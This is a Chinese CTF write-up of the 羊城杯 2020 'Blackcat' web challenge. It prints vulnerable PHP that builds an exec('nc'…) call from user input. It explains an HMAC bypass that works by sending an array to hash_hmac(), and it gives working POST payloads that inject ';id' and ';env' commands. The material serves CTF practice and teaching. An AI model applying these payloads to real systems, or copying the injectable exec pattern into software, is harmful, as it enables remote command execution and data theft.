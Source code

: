 # \[羊城杯 2020]Blackcat

## \[羊城杯 2020]Blackcat

## 考点

* `hash_hmac()`函数对传入的数组进行哈希会返回`NULL`

## wp

mp3文件下载下来，在文件最后存着源码

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}

$clandestine = getenv("clandestine");

if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);


$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);

if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}

echo exec("nc".$_POST['One-ear']);
```

要POST参数`Black-Cat-Sheriff`、`One-ear`和`White-cat-monitor`

首先使用`hash_hmac()`函数对POST的`White-cat-monitor`进行哈希，PHP+哈希=数组，测试发现`hash_hmac()`函数对传入的数组进行哈希会返回`NULL`。

POST的`White-cat-monitor`数组，那`clandestine`就是NULL。在第二次`hash_hmac()`时就相当于`hash_hmac('sha256', $_POST['One-ear'])`，本地PHP运行就可以得到哈希值，绕过`if($hh !== $_POST['Black-Cat-Sheriff'])`判断。最后用分号闭合命令执行即可。

POST

```
Black-Cat-Sheriff=58dedd736c5af324a198c6c663e569df59691854d1f53d704bdbce40f1d139c1&One-ear=;id&White-cat-monitor[]=1
```

flag在env中

```
Black-Cat-Sheriff=afd556602cf62addfe4132a81b2d62b9db1b6719f83e16cce13f51960f56791b&One-ear=;env&White-cat-monitor[]=1
```
